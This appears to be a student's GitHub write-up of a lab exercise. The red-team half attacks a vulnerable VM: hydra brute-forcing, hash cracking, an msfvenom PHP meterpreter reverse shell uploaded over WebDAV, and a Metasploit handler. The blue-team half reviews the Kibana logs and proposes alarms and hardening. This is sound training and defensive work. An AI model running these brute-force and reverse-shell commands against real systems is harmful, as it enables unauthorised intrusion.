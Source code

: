 # Red-Team-VS-Blue-Team-Project
Acted as a red team to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team to use Kibana to review logs taken during the attack implemented as the red team.

   Red Team
- Ifconfig to find out network IP address and network range ![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

- Netdiscover -r 192.168.1.255/16 Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. ![netdiscover](https://user-images.githubusercontent.com/61332852/137389276-f4aca53a-40ea-41ac-a4b7-9ab04459d79a.png)

     - After running the command we can conclude that there are 3 hosts within the network with the IPs of 192.168.1.1 , 192.168.1.100 and 192.168.1.105.
     - Now we need to discover what machine we need to get access to 
- After checking up on the IPs we can conclude that 192.168.1.105 ended up being a web server.   
- After checking the website we see open directories that show company information showing that this is a vulnerability in itself.
 ![index](https://user-images.githubusercontent.com/61332852/137389410-4a1dec9f-30c7-4052-9a34-50fb89184500.png)
- And while exploring through the files we see an important directory being mentioned by the name of a secret_folder. Which can end up containing PII or important company documents. 
- After going in the URL bar and typing in the secret folder found 192.168.1.105/company_folders/secret_folder it then shows a login prompt meant for “Ashton” only. 

   ![ashton](https://user-images.githubusercontent.com/61332852/137389749-5b0f9dec-6d97-4d29-af2c-81b454318207.png)

- After getting a username for a potential login we can then try to brute force the login by using hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder command. 
![f2ef2a23bee60b46f58307ca124d2678](https://user-images.githubusercontent.com/61332852/137389842-76fca522-77e3-4a9d-9dac-ca31b880ea3e.png)
   - After using the command we successfully brute force the account and was able to retrieve the login information for ashton ![84d82a9a9e4648086a79b066c3362ec5](https://user-images.githubusercontent.com/61332852/137390073-bf6a0604-b024-4723-89a7-38e77bde1c13.png)

- Logging in the account then brings us to a personal note Ashton then made for himself containing other important information
 ![cc397b4dc2076647d79196d97e9632fe](https://user-images.githubusercontent.com/61332852/137390404-6b85bb05-ec5a-460e-a194-31611558d358.png) 
   - A note that hes going to be using Ryans account
   - After researching more on the web server we found that Ryan is the CEO of the company.
   - Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen

- Next step is to figure out the login to the file directory dav://192.168.1.105/webdav/ using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
   - Cracking the hash we find the password is linux4u
    ![ac297f568253612ff55d38fdf157547b](https://user-images.githubusercontent.com/61332852/137390969-4da74fb4-9592-4fd2-9844-2e22bc2a5865.png)

- Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php

![b5607ffdbb52b0186be7de39a308e88a](https://user-images.githubusercontent.com/61332852/137391072-15001d7a-24ad-431d-9b67-cf39a58c789e.png)

- Once the reverse shell script is created we can now upload it to the shared directory to run it.
 ![4acac4ed99b11426e3e93855ce8a74f8](https://user-images.githubusercontent.com/61332852/137391146-79ec5c42-adaf-45bb-bfe1-25fd537ddadc.png)

- Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
- The commands would be used in this order to begin the listening 
   - Msfconsole -q
   - Use exploit/multi/handler
   - Set payload php/meterpreter/reverse_tcp 
      - (same payload script as the one we copied to the shared directory)
   - Set LHOST 192.168.1.90
      - Ip of machine we want to listen on 
   - Set LPORT 4444
      - Port we want to listen on
   - Show options 
      - To see if all the settings we had set are correct
   - Run
      - To execute the listening process
 
 ![bc35031f4a1536c75c80faa31941456e](https://user-images.githubusercontent.com/61332852/137391217-c0c8f352-de04-4f7c-b3fb-5722b93771b1.png)


- Once this is completed we can now run the actual script through the shared directory dav://192.168.1.105/webdav which then after will then open up meterpreter on our host machine to show that we have now established connection 
![8316e2c4870b99011bd9c617fa3932fe](https://user-images.githubusercontent.com/61332852/137391273-63d35e21-d842-41fb-b658-6eb79a68052e.png)

   - After having the session open we can run basic commands to grab any other additional information about the system we got access to like getuid. We can also open up a shell terminal if needed by using the command shell.
- We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

              Blue Team
- Analysis: Identifying the port scan
   - The port scan occurred on October 4th 2021 at 11:52PM
   - 254,496 packets were sent from the machine 192.168.1.90
   - Since there is such high network traffic when it should be idle it can be a sign of a port scan 


- Analysis: Finding the Request for the hidden directory 
   - 19,227 requests were made to this URL path. This path was requested by the IP address of 192.168.1.90
   - The files that were requested had a hash that contained Ryan login credentials 


- Analysis: uncovering the brute force attack
   - 19,227 requests was made during the brute force attack to access the secret folder directory
   - 16,101 requests were made before the password was used correctly

- Analysis: Finding the WebDAV Connection
   - 180,859 requests were made to this directory 
   - The files that were requested was the passwd file and also the php file used to initiate the reverse shell

Blue Team Proposed Alarms and Mitigation Strategies
Blocking the Port Scan
- Alarm
   - An alert to be sent to the team for a 1000+ port connections within a hour
- System Hardening 
   - To run multiple port scans to see what ports are being opened and if any are being used maliciously
   - To make sure Firewall is up to date and to diminish any connections to the host

Finding the Request for the Hidden Directory
- Alarm
   - For an alert on the system to detect if certain files and directory within the system are being accessed without permission
   - If these private files and directories are trying to be accessed more than 3 times the alert would then be sent to the team
- System Hardening
   - To encrypt sensitive data and for files to not be shared with users outside the company being in this situation.
   - To make a whitelist to people who can and cant use these files and directories

Mitigation: Preventing Brute Force Attacks
- Alarm
   - I would implement a failed login alert to show a certain amount of times the login has failed 
   - If the HTTP error code 401 is occurring multiple times an alert would be sent as well
   - If there is more than 5 failed login attempts the alarm would be triggered
- System Hardening
   - a lock out after to many attempts of logging in to prevent a brute force attack like the one implemented
   - To require employees to have a complex password to mitigate the chances of getting a login attempt correctly

Mitigation: Detecting the WebDav Connection
- Alarm
   - An alert would be made to send the IP addresses trying to get access to webdav  
- System Hardening
   - To whitelist certain IP addresses so only certain machines can access WebDav

Mitigation: Identifying Reverse shell Uploads
- Alarm
   - An alert can be shown when a file is being uploaded to the webdav folder and also the type of file being copied.
- System Hardening
   - To mitigate the attack, permissions on the folder itself can be changed to read only so this prevents any malicious files being uploaded to the folder.
   - To whitelist IP addresses that can access the webdav folder 


